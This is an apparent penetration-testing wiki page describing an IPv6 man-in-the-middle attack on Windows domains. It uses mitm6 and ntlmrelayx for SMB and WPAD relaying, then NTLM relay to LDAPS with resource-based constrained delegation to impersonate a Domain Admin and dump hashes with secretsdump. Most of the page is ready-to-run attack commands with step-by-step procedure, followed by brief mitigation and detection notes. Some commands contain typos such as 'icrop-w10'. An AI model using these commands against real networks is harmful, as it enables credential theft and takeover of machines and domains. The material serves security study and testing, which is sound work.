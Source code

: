 # MitM IPv6

{% hint style="info" %}
All Windows versions since Windows Vista (including server variants) have IPv6 enabled and prefer it over IPv4. IPv6 attacks abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.
{% endhint %}

## <mark style="color:red;">MITM6</mark>

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```
mitm6 -d test.local
```

For the second part of our attack, we use ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay like we saw earlier

```
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

In this case, the attack is pretty much the same as the one we saw earlier we juste replaced responder with mitm6 for the obvious reasons previously mentionned.now, another attack is possible through **WPAD serving.** WPAD is a protocol used to ensure all systems in an organization use the same web proxy configuration. Instead of individually modifying configurations on each device connected to a network, WPAD locates a proxy configuration file and applies the configuration automatically. More details about this attack can be found in the references. using ntlmrelayx to also implement this attack, we launch the attack using the following command :

```
ntlmrelayx.py -6 -wh attacker.test.local -tf targets.txt -l loot -socks -debug
```

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

When Windows configured for DHCP boots, it looks for DHCP configuration, and then proxy configuration using WPAD. That way, when the victim computer boots and starts looking for proxy config, the machine account tries to authenticate to us.

1. We set up a man-in-the-middle DHCP server on IPv6 and serve a DNS IPv6 configuration that points to our rogue DNS IPv6 server.
2. When the victim uses WPAD to look for a proxy configuration file over DNS, we let it connect to our fake proxy server and then prompt for authentication using a `407 Authentication Required` request.
3. We capture and relay the (encrypted) credentials of the machine account to LDAPS on the domain controller (DC).
4. We ask the DC over LDAPS to create a new machine account. Active Directory allows any user account, including machine accounts to add 10 machine accounts by default.( NOTE: LDAPS and not LDAP, because creating machines over unencrypted channels is prohibited)
5. We now have credentials for a machine account. The reason we create a machine account is that we need access to an account with a Service Principal Name (SPN).
6. We now ask the DC to configure resource-based constrained delegation for this new machine account on the victim computer object. For example: the machine account `WS02$` sets the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object `WS02` to allow the newly created machine account to impersonate users on it.
7. We request a service ticket using the machine account that was created, where we impersonate a user that has local admin access to our target computer.
8. We use the service ticket to access the computer with local admin privileges. The ticket with these privileges is only valid on the target box.

Now off to the commands :

1st, mitm6 as explained previously (in this case limiting just the attack on the icorp-w10 host but can be fully utilized on others) :

```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```

2nd, ntlmrelayx :

```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```

3rd, we can use `getST.py` from ntlmrelayx, which will do all the S4U2Self an S4U2Proxy magic for us. You will need the latest version of impacket from git to include resource based delegation support. In this example we will be impersonating the user `admin`, which is a member of the `Domain Admins` group and thus has administrative access on `ICORP-W10`

```
// Some codegetST.py -spn cifs/icrop-w10.internal.corp internal.corp/account_created_by_previous_cmd -impersonate admin
```

Once that done, you should've the keberos service ticket for the user admin saved in admin.ccache file and is valid for cifs/icorp-w10.internal.corp. This only lets us impersontate this user to this specific host, not to other hosts in the network. With this ticket we can do whatever we want on the target host for, for example dumping hashes with secretdumps:

```
export KRB5CCNAME=admin.ccache
secretsdump.py -k -no-pass icrop-w10.internal.corp
```

The attacker now has full control over the victim workstation.

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation" %}

{% embed url="https://chryzsh.github.io/relaying-delegation" %}

## <mark style="color:red;">Mitigation</mark>

* Consider NTLM relay mitigations.
* Disable IPv6 on all systems if you are not using any related network services.
* If using IPv6, configure the DNS settings on all systems. (broadcast DHCPv6 will make DNS take over possible).
* Disable `Proxy Auto detection` via group policy to prevent WPAD attacks.
* If your company uses a proxy configuration file internally (PAC file) it is recommended to explicitly configure the PAC url instead of relying on WPAD to detect it automatically.

### <mark style="color:orange;">IPv6 Security Hardening</mark>

{% embed url="http://www.ipv6now.com.au/primers/ERNW_Guide_to_Configure_Securely_Windows_Servers_For_IPv6_v1_0.pdf" %}

## <mark style="color:red;">Detection</mark>

* Monitor the traffic for unknown DHCPv6 / DNS servers.
